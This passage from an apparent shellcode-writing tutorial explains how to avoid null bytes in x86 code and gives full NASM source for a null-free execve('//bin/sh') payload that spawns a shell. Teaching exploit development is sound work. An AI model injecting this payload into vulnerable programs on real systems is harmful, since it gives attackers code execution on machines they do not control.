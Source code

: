 Here, we used multiple tricks to avoid null bytes. Instead of moving **0** to a register, we **XOR** it, the result is the same but no null bytes:

```bash
$ rasm2 -a x86 -b 32 "mov eax, 0"
b800000000
$ rasm2 -a x86 -b 32 "xor eax, eax"
31c0
```

Instead of moving a 1 byte value to a 4 bytes register, we use a 1 byte register :

```bash
$ rasm2 -a x86 -b 32 "mov eax, 1"
b801000000
$ rasm2 -a x86 -b 32 "mov al, 1"
b001
```

And for the string, we just pushed a zero on the stack for the terminator, pushed the string value in 4 bytes chunks (reversed, because of little-endian) and used *ESP* as a string pointer :

```bash
xor eax, eax    
push eax       
push 0x0a202120 ; line return + " ! "
push 0x504f4c50 ; "POLP"
mov ecx, esp
```

# The "shell" code

We had fun printing strings on our terminal but, where is the **"shell"** part of our shellcode ? Good question ! Let's create a shellcode which actually get us a shell prompt.

To do that, we will use another syscall, [execve](http://man7.org/linux/man-pages/man2/execve.2.html), which is number **11** or **0xb** in the [syscall table](https://syscalls.kernelgrok.com/). It takes 3 arguments :
  
  - The program to execute -> *EBX*
  - The arguments or *argv* (null) -> *ECX*
  - The environment or envp (null) -> *EDX*

```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```

This time, we'll directly write the code without any null bytes.

```nasm
; nasm -f elf32 execve.asm
; ld -m elf_i386 execve.o -o execve
BITS 32

section .text
global _start

_start:
xor eax, eax
push eax        ; string terminator
push 0x68732f6e ; "hs/n"
push 0x69622f2f ; "ib//"
mov ebx, esp    ; "//bin/sh",0 pointer is ESP
xor ecx, ecx    ; ECX = 0
xor edx, edx    ; EDX = 0
mov al, 0xb     ; execve()
int 0x80  
```
